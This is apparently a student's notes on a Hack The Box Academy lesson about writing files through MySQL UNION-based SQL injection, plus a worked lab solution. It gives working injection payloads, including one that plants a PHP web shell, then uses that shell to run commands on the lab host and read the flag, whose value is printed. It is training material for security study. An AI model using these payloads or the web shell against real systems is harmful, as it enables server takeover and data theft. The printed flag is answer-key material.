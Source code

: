 When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

---

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with`FILE` privilege enabled
2. MySQL global`secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has the`FILE` privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking the`secure_file_priv` global variable.

#### secure_file_priv

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand,`NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the`FILE` privilege. However,`MySQL` uses`/var/lib/mysql-files` as the default folder. This means that reading files through a`MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to`NULL`, meaning that we cannot read/write files anywhere within the system.

So, let's see how we can find out the value of`secure_file_priv`. Within`MySQL`, we can use the following query to obtain the value of this variable:


```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

However, as we are using a`UNION` injection, we have to get the value using a`SELECT` statement. This shouldn't be a problem, as all variables and most configurations' are stored within the`INFORMATION_SCHEMA` database.`MySQL` global variables are stored in a table called [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns`variable_name` and`variable_value`.

We have to select these two columns from that table in the`INFORMATION_SCHEMA` database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show the`secure_file_priv` variable, using the`WHERE` clause we learned about in a previous section.

The final SQL query is the following:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So, similar to other`UNION` injection queries, we can get the above query result with the following payload. Remember to add two more columns`1` &`4` as junk data to have a total of 4 columns':

\
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

And the result shows that the`secure_file_priv` value is empty, meaning that we can read/write files to any location.

---

## SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the`SELECT .. INTO OUTFILE` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add`INTO OUTFILE '...'` after our query to export the results into the file we specified. The below example saves the output of the`users` table into the`/tmp/credentials` file:


```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and`cat` the file, we see that table's content:


```shell-session
smoothment@htb[/htb]$ cat /tmp/credentials 

1 admin 392037dbba51f692776d6cefb6dd546d
2 newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly`SELECT` strings into files, allowing us to write arbitrary files to the back-end server.


```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When we`cat` the file, we see that text:

```shell-session
smoothment@htb[/htb]$ cat /tmp/test.txt 

this is a test
```


```shell-session
smoothment@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul 8 06:20 /tmp/test.txt
```

As we can see above, the`test.txt` file was created successfully and is owned by the`mysql` user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

---

## Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write`file written successfully!` to the`/var/www/html/proof.txt` file, which we can then access on the web application:


```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use`load_file` to read the server configuration, like Apache's configuration found at`/etc/apache2/apache2.conf`, Nginx's configuration at`/etc/nginx/nginx.conf`, or IIS configuration at`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The`UNION` injection payload would be as follows:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

We don't see any errors on the page, which indicates that the query succeeded. Checking for the file`proof.txt` in the webroot, we see that it indeed exists:

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

---

## Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:


```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous`UNION` injection payload, and change the string to the above, and the file name to`shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

 ', , into outfile '/var/www/html/shell.php'-- -'>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the`/shell.php` file and executing commands via the`0` parameter, with`?0=id` in our URL:
 ![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

The output of the`id` command confirms that we have code execution and are running as the`www-data` user.

# Question
---

![Pasted image 20250203154637.png](../../../../IMAGES/Pasted%20image%2020250203154637.png)

We can submit the following in order to get the webshell:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Now, we can go to `/shell.php` in the following way:

```r
http://83.136.248.110:40014/shell.php?0=id
```

![Pasted image 20250203154803.png](../../../../IMAGES/Pasted%20image%2020250203154803.png)

Now we got ourselves a webshell, let's try to look around for a flag, we can do this by using:

```r
find / -name '*.txt
```

We need to use URL encoding so:

```r
find+/+-name+'*.txt'+2>/dev/null
```

We'll see the following output:

![Pasted image 20250203155314.png](../../../../IMAGES/Pasted%20image%2020250203155314.png)

Flag is located at `/var/www/flag.txt`, let's read it using:

```
cat+/var/www/flag.txt
```

![Pasted image 20250203155402.png](../../../../IMAGES/Pasted%20image%2020250203155402.png)


Got the flag: `d2b5b27ae688b6a0f1d21b7d3a0798cd `
